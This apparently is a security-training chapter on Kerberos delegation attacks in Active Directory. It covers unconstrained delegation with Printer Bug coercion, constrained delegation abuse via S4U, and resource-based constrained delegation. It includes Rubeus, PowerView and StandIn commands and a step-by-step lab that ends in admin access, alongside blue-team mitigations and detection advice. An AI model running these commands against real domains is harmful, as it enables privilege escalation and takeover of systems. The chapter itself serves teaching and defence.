


# Delegation Attacks: Unconstrained, Constrained, RBCD

> **Executive Summary**: Kerberos Delegation allows a service (like a Web Server) to impersonate a user to access another service (like a Database). Misconfigured delegation is one of the most dangerous AD flaws, allowing attackers to coerce authentication and steal TGTs or forge tickets.

## 1. Learning Objectives
By the end of this chapter, you will be able to:
- **Unconstrained Delegation**: Steal TGTs from the printer bug (SpoolSample).
- **Constrained Delegation**: Abuse Protocol Transition (S4U2Self) to impersonate Admins.
- **Resource-Based Constrained Delegation (RBCD)**: Abuse Computer Object creation to own any server.
- **Tools**: Rubeus, Kekeo, Impacket.

## 2. Core Concepts: What is Delegation?

### 2.1 The Problem
User Alice logs into WebServer (Front-end). WebServer needs to query SQLServer (Back-end) *as Alice*.
How does WebServer authenticate to SQLServer as Alice? Alice didn't give her password to WebServer.

### 2.2 The Solution
Kerberos Delegation.
1.  **Unconstrained**: Alice sends her TGT to WebServer. WebServer puts it in LSASS and can use it for *anything*. (Dangerous).
2.  **Constrained**: WebServer can only impersonate Alice for specific services (e.g., `MSSQLSvc/sql01`).
3.  **Resource-Based (RBCD)**: The *SQLServer* decides who can delegate to it. (Configured on the target object, not the source).

## 3. Deep Dive: Unconstrained Delegation

### 3.1 The Flaw
If a computer has "Trust this computer for delegation to any service" enabled:
- Any user connecting to it sends their TGT.
- The TGT is cached in memory.
- If a Domain Admin connects (or we coerce them), we steal their TGT.

### 3.2 The Printer Bug (Coercion)
We can't wait for a DA to log in. We force it.
- **SpoolSample / PetitPotam**: Force the DC to authenticate to our Unconstrained Server via MS-RPRN (Print Spooler).
- **Attack Chain**:
    1.  Compromise Unconstrained Server (WS01).
    2.  Run Rubeus monitor.
    3.  Run SpoolSample: `Target=DC01` `CaptureServer=WS01`.
    4.  DC01 connects to WS01. Rubeus captures DC01$ TGT.
    5.  **DCSync**.

## 4. Deep Dive: Constrained Delegation (KCD)

### 4.1 The Extensions (S4U)
- **S4U2Self (Service for User to Self)**: The Service can ask the KDC for a ticket *to itself* on behalf of *any user*. (Impersonation).
- **S4U2Proxy (Service for User to Proxy)**: The Service uses that ticket to ask for a ticket to the *backend service*.

### 4.2 The Attack
If we compromise the WebServer (which has Constrained Delegation to SQL):
1.  **S4U2Self**: Ask KDC for a ticket for "Administrator" to "WebServer".
2.  **S4U2Proxy**: Use that ticket to ask KDC for a ticket for "Administrator" to "SQLServer".
3.  **Result**: We are Admin on SQL.

## 5. Deep Dive: Resource-Based Constrained Delegation (RBCD)

### 5.1 The Setup
RBCD is configured on the *Target* object (`msDS-AllowedToActOnBehalfOfOtherIdentity`).
- **Permissions**: If User Bob has `GenericWrite` on Computer object `FILE01`.
- **Attack**:
    1.  Bob creates a Fake Computer (`EVIL$`).
    2.  Bob writes to `FILE01`'s attribute: "EVIL$ is allowed to delegate to you".
    3.  Bob uses `EVIL$` (which he controls) to perform the S4U2Self/S4U2Proxy dance.
    4.  Bob gets a ticket as Admin to `FILE01`.

## 6. Red Team Perspective

### 6.1 Finding Delegation
- **PowerView**:
    ```powershell
    Get-NetComputer -Unconstrained
    Get-DomainUser -TrustedToAuth
    ```
- **BloodHound**: Shows edges "AllowedToDelegate".

### 6.2 Execution with Rubeus
**S4U Attack**:
```powershell
.\Rubeus.exe s4u /user:websvc /rc4:[HASH] /impersonateuser:Administrator /msdsspn:cifs/dc01 /ptt
```

## 7. Blue Team Perspective

### 7.1 Protected Users Group
Members of "Protected Users" group *cannot be delegated*. Add Domain Admins here.

### 7.2 Sensitive Accounts
Mark accounts as "Account is sensitive and cannot be delegated" in AD.

### 7.3 Detection
- **Event 4769**: TGS Request. Look for S4U flags.
- **SpoolSample**: Monitor for RPC calls to the Print Spooler on DCs. (Disable Print Spooler on DCs!).

## 8. Practical Lab: RBCD

### Scenario: Write Access to a Computer
You compromised user "Bob". Bob has `WriteProperty` on "WEB01".

**Step 1: Create Fake Computer**
```powershell
StandIn.exe --computer EVIL --make
```

**Step 2: Configure RBCD**
```powershell
Set-ADComputer WEB01 -PrincipalAllowedToDelegateToAccount (Get-ADComputer EVIL)
```

**Step 3: Impersonate**
```powershell
Rubeus.exe s4u /user:EVIL$ /rc4:[Key] /impersonateuser:Administrator /msdsspn:cifs/WEB01 /ptt
```

**Step 4: Access**
`ls \\WEB01\C$` -> Success.

## 9. Diagrams

### S4U2Self & S4U2Proxy



## 10. Critical Analysis

### Why RBCD is a Logic Flaw
RBCD was designed to allow resource owners (like a File Server admin) to configure delegation without needing a Domain Admin to edit the Web Server's account. This delegation of privilege management is what opens the hole: if you can write to the computer object, you own the computer.

### Interview Questions
1.  **Q**: What is the difference between Protocol Transition and Constrained Delegation?
    -   **A**: **Protocol Transition** is the ability to accept non-Kerberos auth (e.g., NTLM web login) and switch it to Kerberos (S4U2Self). **Constrained Delegation** is the limitation of where that ticket can go (S4U2Proxy).
2.  **Q**: How do you prevent the Printer Bug?
    -   **A**: Disable the Print Spooler service on all Domain Controllers.

## 11. References
- [[06_Active_Directory_Attacks/02_Kerberos_Attacks_I]]
- [[03_Active_Directory_Structure]]
